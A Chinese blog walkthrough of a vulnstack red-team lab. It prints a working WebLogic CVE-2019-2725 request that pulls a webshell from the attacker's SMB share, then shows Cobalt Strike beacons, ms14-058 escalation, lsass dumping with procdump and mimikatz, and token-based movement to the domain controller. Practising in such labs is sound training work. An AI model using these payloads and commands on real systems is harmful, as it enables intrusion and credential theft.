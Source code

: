 ```yaml
---
title: ATT&CK实战系列——红队实战(二)
author: Spade-Z
top: false
cover: false
toc: true
mathjax: false
summary: >-
  vlunstack是红日安全团队出品的一个实战环境，具体介绍请访问：http://vulnstack.qiyuanxuetang.net/vuln/detail/3/
tags:
  - 安全
  - 内网域渗透
  - 靶场
categories:
  - 渗透测试
abbrlink: 63e9fa60
date: 2021-03-31 14:01:58
img:
coverImg:
password:
---
```


# 一、环境搭建

## 1.1 靶场下载
---
靶场下载地址[传送门](http://vulnstack.qiyuanxuetang.net/vuln/detail/3/)
> 靶机通用密码：  1qaz@WSX

## 1.2 环境配置
---
拓扑图
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)1.png)
下载好靶机打开vmx文件z之后恢复到快照v1.3，由于DMZ网段为192.168.111.0/24，所以需要将子网ip设置为192.168.111.0
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)2.png)

## 1.3 配置信息
---
DC
IP：10.10.10.10OS：Windows 2012(64)
应用：AD域

WEB
IP1：10.10.10.80
IP2：192.168.111.80
OS：Windows 2008(64)
应用：Weblogic 10.3.6MSSQL 2008

PC
IP1：10.10.10.201
IP2：192.168.111.201
OS：Windows 7(32)
应用：

攻击机
IP： 192.168.111.1
OS： Windows 10(64)
IP： 192.168.111.128 
OS： Kali

>内网网段：10.10.10.1/24
>DMZ网段：192.168.111.1/24

## 1.4 域环境初始化
---
登录 WEB 主机启动服务。默认密码是 1qaz@WSX 需登录时修改。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)3.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)4.png)
输入新密码123.com
切换至 WEB 服务目录下启动 WEB 服务。
C:\Oracle\Middleware\user_projects\domains\base_domain
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)5.png)
双击运行
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)6.png)

# 二、weblogic 漏洞利用并 getshell

## 2.1	信息收集
---
全端口扫描
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)7.png)
常用端口是开放状态 1433 是 mssql， 7001 知道是 weblogic 服务，因为前面手工开启的。
使用WeblogicScan 工具扫一下
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)8.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)9.png)

## 2.2	利用 CVE-2019-2725 获得 shell
---
Kali 搭建 smbserver 通过命令执行直接 copy 冰蝎马到服务器上。
启动 smbserver 名称为 share 目录为/root/
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)10.png)
打开 BurpSuite
将 POC 复制到 Repeater 中进行发包。
<pre style="background-color:#F0F8FF;">
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.111.80:7001
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
DNT: 1
Connection: close
Content-Type: text/xml
Content-Length: 839
&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"&gt;
&lt;soapenv:Header&gt;
&lt;wsa:Action&gt;xx&lt;/wsa:Action&gt;
&lt;wsa:RelatesTo&gt;xx&lt;/wsa:RelatesTo&gt;
&lt;work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"&gt;
&lt;void class="java.lang.ProcessBuilder"&gt;
&lt;array class="java.lang.String" length="3"&gt;
&lt;void index="0"&gt;
&lt;string&gt;cmd&lt;/string&gt;
&lt;/void&gt;
&lt;void index="1"&gt;
&lt;string&gt;/c&lt;/string&gt;
&lt;/void&gt;
&lt;void index="2"&gt;
&lt;string&gt;copy \\192.168.111.128\share\shell.jsp servers\AdminServer\tmp\_WL_internal\bea_wls9_async_response\8tpkys\war\1.jsp &lt;/string&gt;
&lt;/void&gt;
&lt;/array&gt;
&lt;void method="start"/&gt;&lt;/void&gt;
&lt;/work:WorkContext&gt;
&lt;/soapenv:Header&gt;
&lt;soapenv:Body&gt;
&lt;asy:onAsyncDelivery/&gt;
&lt;/soapenv:Body&gt;&lt;/soapenv:Envelope&gt;
</pre>
设置目标主机端口
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)11.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)12.png)
使用冰蝎进行连接，地址：http://192.168.111.80:7001/_async/1.jsp
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)13.png)
查看用户信息
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)14.png)
查看系统信息，看一下系统安装了哪些补丁
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)15.png)

# 三、域渗透靶场获取DC权限

## 3.1	Cobalt Strike 部署
---
上传到kali中并解压
添加执行权限
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)16.png)
启动服务端(命令+ip+密码)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)17.png)
启动客户端
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)18.png)
用户名随意填写， CS 支持多人协同工作，密码是 123456。

## 3.2	创建监听
---
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)19.png)
添加
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)20.png)
生成exe程序
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)21.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)22.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)23.png)

## 3.3  上传相关利用工具
---
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)24.png)

## 3.4	反弹管理员shell 给 cs 服务
---
先切换到我们上传文件的目录，运行 web.exe 返回一个 de1ay 用户的 shell。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)25.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)26.png)
提权
右键->Access->Elevate->ms14-058 提到 system 权限
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)27.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)28.png)

## 3.5	明文读取密码
---
使用 管理员 权限 download 进程内
`beacon> shell procdump64.exe -accepteula -ma lsass.exe lsass.dmp`
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)29.png)
需要将 lsass.dmp 文件拖回本地放至相同的系统中进行解密。
`beacon> shell mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit >pass.txt`
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)30.png)
直接使用 download 命令下载，下载后会保存到程序目录的 downloads 目录。
`beacon> download pass.txt`
名字是随机字符串
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)32.png)

## 3.6	域信息收集
---
目前得到账户信息
mssql@de1ay 1qaz@WSX
de1ay@de1ay 1qaz@WSX
de1ay@WEB 该用户是登录系统用的，密码是登录时自行修改的。
查看网络信息找到域控
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)33.png)
DNS 服务器 10.10.10.10 也就是域控。
找到 DC 的主机名
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)34.png)
主机名： DC.de1ay.com

## 3.7	通过凭证连接域控反弹域控 shell
---
创建新的监听。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)35.png)
选择 smb 这个特殊的 beacon，名称就叫 smb 这个后面要用。
恢复初始凭证
`beacon> rev2self` 
通过前面获取到的账户信息生成新的凭证。
`beacon> make_token DE1AY\de1ay 1qaz@WSX`
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)36.png)
DC上线
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)37.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)38.png)

>工具包[提取码：aj70](https://pan.baidu.com/s/1VdQW_AalGaZqT2LepNEnLw)

---
**欢迎在文章最后评论区【留言和讨论】，当然，欢迎点击文章最后的打赏按键，请博主一杯冰阔乐，笑～**
<escape>
<table>
  <tr>
    <td><img width="100" src="https://cdn.jsdelivr.net/gh//SpadeZ-A/cdn/img/alipay.bmp" ></td>    <td><img width="100" src="https://cdn.jsdelivr.net/gh//SpadeZ-A/cdn/img/wechat.bmp" ></td>    <td><img width="100" src="https://cdn.jsdelivr.net/gh//SpadeZ-A/cdn/img/zan.png" ></td>   
  </tr>
</table>
</escape>
